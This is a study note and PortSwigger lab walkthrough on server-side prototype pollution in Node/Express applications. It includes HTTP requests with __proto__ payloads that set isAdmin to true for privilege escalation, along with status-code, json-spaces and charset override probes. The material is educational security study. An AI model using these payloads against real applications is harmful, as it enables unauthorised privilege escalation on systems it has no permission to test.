 # Server Side prototype Pollution
 - Extension to help `https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8`
 - Difficult to detect cause its on server.
 - unsafely merges user-controllable input into a server-side JavaScript object.

### Detecting server-side prototype pollution via `polluted property reflection`.
 - for...in loop iterates over all of an object's enumerable properties, including ones that it has inherited via the prototype chain.
```
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
```
Ex: 
```POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```

```
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```
 - Here we add "__proto__" in request, and see it being merged.
 - Any features that involve updating user data are worth investigating as these often involve merging the incoming data into an existing object that represents the user within the application.

# LAB
 - https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution
 - Privilige escalation.
 - Original Request and Response
```
POST /my-account/change-address HTTP/2
Host: 0ad5002803e080678249b5c900b800d4.web-security-academy.net
Cookie: session=F0MSnC6xlW4r4kHpiCfA5aqyVPBAYoUs
Content-Length: 231
Sec-Ch-Ua: 
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: */*
Origin: https://0ad5002803e080678249b5c900b800d4.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad5002803e080678249b5c900b800d4.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{
	"address_line_1": "Wiener HQ",
	"address_line_2": "One Wiener Way",
	"city": "Wienerville",
	"postcode": "BU1 1RP",
	"country": "UK",
	"sessionId": "F0MSnC6xlW4r4kHpiCfA5aqyVPBAYoUs"
}
```
```
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"d0-C/bYHMdz0P5+PlERv2aVqQjVdR8"
Date: Thu, 29 Jun 2023 21:43:26 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 208

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false"}
```
 - I see `isAdmin`
 - Then I send
```
{
	"address_line_1": "Wiener HQ",
	"address_line_2": "One Wiener Way",
	"city": "Wienerville",
	"postcode": "BU1 1RP",
	"country": "UK",
"__proto__":{
        "foo":"bar"
    },
	"sessionId": "F0MSnC6xlW4r4kHpiCfA5aqyVPBAYoUs"
}
```
```
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false,"foo":"bar"}
```
 - I see `foo:bar` being set.
```
{
	"address_line_1": "Wiener HQ",
	"address_line_2": "One Wiener Way",
	"city": "Wienerville",
	"postcode": "BU1 1RP",
	"country": "UK",
	"__proto__": {
		"foo": "bar",
		"isAdmin": true
	},
	"sessionId": "F0MSnC6xlW4r4kHpiCfA5aqyVPBAYoUs"
}
```

```
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":true,"foo":"bar"}
```
 - `isAdmin` is set to true.


### Detecting server-side prototype pollution `without polluted property reflection`
 - Try injecting properties that match potential configuration options for the server.
 - You can then compare the server's behavior before and after the injection to see whether this configuration change appears to have taken effect.

##### Status code override
 - JavaScript frameworks like Express allow developers to set custom HTTP response statuses.
```
HTTP/1.1 200 OK
...
{
    "error": {
        "success": false,
        "status": 401,
        "message": "You do not have permission to access this resource."
    }
}
```
 - http-errors module has this error.
```
function createError () {
    //...
    if (type === 'object' && arg instanceof Error) {
        err = arg
        status = err.status || err.statusCode || status
    } else if (type === 'number' && i === 0) {
    //...
    if (typeof status !== 'number' ||
    (!statuses.message[status] && (status > 400 || status >= 600))) {
        status = 500
    }
    //...
```
1. Find a way to trigger an error response and take note of the default status code.
2 . Try polluting the prototype with your own `**status**` property. Be sure to use an obscure status code that is unlikely to be issued for any other reason.
3. Trigger the error response again and check whether you've successfully overridden the status code.
 - You must choose a status code in the 400-599 range

##### JSON spaces override
 - The Express framework provides a json spaces option, which enables you to configure the number of spaces used to indent any JSON data in the response.
 - If you've got access to any kind of JSON response, you can try polluting the prototype with your own json spaces property.
 - Fixed in Express 4.17.4.

##### Charset override
```
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```
 - Is that character encoding being used?
 - See more details in https://portswigger.net/web-security/prototype-pollution/server-side .

 - https://portswigger.net/research/server-side-prototype-pollution
 - Burp extension `https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8`
